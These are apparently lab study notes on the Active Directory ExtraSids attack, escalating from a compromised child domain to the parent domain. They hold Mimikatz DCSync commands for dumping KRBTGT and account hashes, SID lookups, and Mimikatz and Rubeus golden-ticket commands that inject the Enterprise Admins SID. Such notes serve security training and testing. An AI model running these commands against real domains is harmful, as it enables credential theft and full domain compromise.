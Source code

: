 ## SID History Primer

sidHistory attribute is used when migrating a user's account from one domain to another.
Using Mimikatz, an attacker can perform SID history injection and add an administrator account or Domain Admin account to the SID History attribute of an account they control.

## ExtraSids Attack - Mimikatz
- Allows for the compromise of a parent domain once the child domain has been compromised.
- Leverage SIDHistory to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

After compromising a child domain, we need:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

**Obtaining the KRBTGT Account's NT Hash using Mimikatz
```
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

**Using Get-DomainSID (PowerView)
```
Get-DomainSID
```

**Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

**Creating a Golden Ticket with Mimikatz
```
mimikatz.exe
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
- first sid is the Get-DomainSID output
- second sids is the Get-DomainGroup SID
- krbtgt is the ntlm hash from dcsync

**Confirming a Kerberos Ticket in Memory
```
klist
```

**Listing the Entire C: Drive of the Domain Controller
```
ls \\academy-ea-dc01.inlanefreight.local\c$
```


## ExtraSids Attack - Rubeus

**Creating a Golden Ticket with Rubeus
```
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
klist
```

**Performing a DCSync Attack
```
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

Target domain is not the same as the user's domain:
```
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```


